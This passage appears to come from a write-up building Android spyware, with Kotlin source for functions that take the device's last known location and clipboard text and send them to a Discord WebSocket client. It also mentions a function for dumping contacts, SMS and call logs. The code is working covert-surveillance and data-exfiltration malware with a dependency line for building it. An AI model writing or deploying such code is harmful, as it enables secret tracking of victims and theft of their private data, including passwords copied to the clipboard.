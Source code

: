 This is `Dump` function where it is used to dump all information that I could get from content provider such as contact, SMS and call logs.

```kotlin
fun getLastKnownLocation(context: Context,client: DiscordWebSocketClient) {
    val fusedLocationClient: FusedLocationProviderClient =
        LocationServices.getFusedLocationProviderClient(context)

    try {
        fusedLocationClient.lastLocation
            .addOnSuccessListener { location ->
                if (location != null) {
                    Log.i("Location", "Lat: ${location.latitude}, Lon: ${location.longitude}")
                    val location = "Lat: ${location.latitude}, Lon: ${location.longitude}"
                    client.sendMessage("Location", location)
                } else {
                    Log.i("Location", "Location not available")
                }
            }
            .addOnFailureListener { e ->
                Log.i("Location", "Error getting last known location", e)
            }
    } catch (e: SecurityException) {
        Log.e("Location", "Location permission not granted", e)
    }
}
```

```txt
implementation("com.google.android.gms:play-services-location:21.3.0")
```
this is `getLastKnownLocation` function where it will get the location of the device. To get precise location, I need to add another dependency in `build.gradle.kts`. 

```kotlin
fun readClipboard(context: Context,client: DiscordWebSocketClient) {
    val clipboard = context.getSystemService(Context.CLIPBOARD_SERVICE) as ClipboardManager

    if (clipboard.hasPrimaryClip()) {
        val clipData = clipboard.primaryClip
        val item = clipData?.getItemAt(0)
        val text = item?.coerceToText(context.applicationContext)

        if (!text.isNullOrEmpty()) {
            Log.i("Clipboard", "Clipboard content: $text")
            client.sendMessage("Clipboard", "Clipboard content: $text")
        } else {
            Log.i("Clipboard", "Clipboard is empty or non-text")
        }
    } else {
        Log.e("Clipboard", "No clipboard content available")
    }
}
```
